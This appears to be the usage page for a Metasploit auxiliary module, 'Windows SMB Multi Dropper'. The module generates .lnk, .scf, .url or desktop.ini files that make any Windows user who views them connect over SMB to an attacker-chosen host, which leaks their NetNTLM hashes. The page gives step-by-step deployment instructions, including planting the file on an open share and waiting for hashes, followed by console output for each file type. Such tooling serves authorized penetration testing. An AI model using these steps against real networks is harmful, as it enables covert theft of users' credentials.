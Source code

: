 This module dependent on the given filename extension creates either a .lnk, .scf, .url, desktop.ini file which includes a reference to 
the the specified remote host, causing SMB connections to be initiated from any user that views the file. This allows for NetNTLM hashes to be captured
by a listening user.

## Vulnerable Application

Microsoft Windows

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/multidrop```
  4. Customise Options as required
  5. Do: ```run```
  6. A file pointing back to the listening host will then be generated.
  7. Configure auxiliary/server/capture/smb or similar to capture hashes.
  8. Upload the document to an open share or similar and wait for hashes.

## Options

**FILENAME**
This option allows you to customise the generated filename and filetpye that is generated.

To generate desktop.ini configure a filename of desktop.ini
To generate a scf file configure a filename of anyname.scf
To generate a url file configure a filename of anyname.url
To generate a lnk file configure a filename of anyname.lnk

Filetype generation is based on the file extension.

**LHOST**
This option allows you to set the IP address of the SMB Listener that the document points to
This can be changed using set LHOST 192.168.1.25


## Scenarios

### Microsoft Windows

  
  ```
  Console output
  ```

  ```
  msf auxiliary(multidrop) > show info

       Name: Windows SMB Multi Dropper
     Module: auxiliary/multidrop
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  Richard Davy - secureyourit.co.uk
  Lnk Creation Code by Mubix

Basic options:
  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  FILENAME  test.url         yes       Filename - supports .lnk, .scf, .url, desktop.ini
  LHOST     192.168.1.19     yes       Host listening for incoming SMB/WebDAV traffic

Description:
  This module dependent on the given filename extension creates either 
  a .lnk, .scf, .url, desktop.ini file which includes a reference to 
  the the specified remote host, causing SMB connections to be 
  initiated from any user that views the file.

References:
  https://malicious.link/blog/2012/02/11/ms08_068-ms10_046-fun-until-2018
  https://malicious.link/post/2012/2012-02-19-developing-the-lnk-metasploit-post-module-with-mona/


msf auxiliary(multidrop) > exploit

[+] desktop.ini stored at /root/.msf4/local/desktop.ini
[] Auxiliary module execution completed
msf auxiliary(multidrop) > set filename test.lnk
filename => test.lnk
msf auxiliary(multidrop) > exploit

[+] test.lnk stored at /root/.msf4/local/test.lnk
[] Auxiliary module execution completed
msf auxiliary(multidrop) > set filename test.scf
filename => test.scf
msf auxiliary(multidrop) > exploit

[+] test.scf stored at /root/.msf4/local/test.scf
[] Auxiliary module execution completed
msf auxiliary(multidrop) > set filename test.url
filename => test.url
msf auxiliary(multidrop) > exploit

[+] test.url stored at /root/.msf4/local/test.url
[] Auxiliary module execution completed
msf auxiliary(multidrop) > back
 
  ```
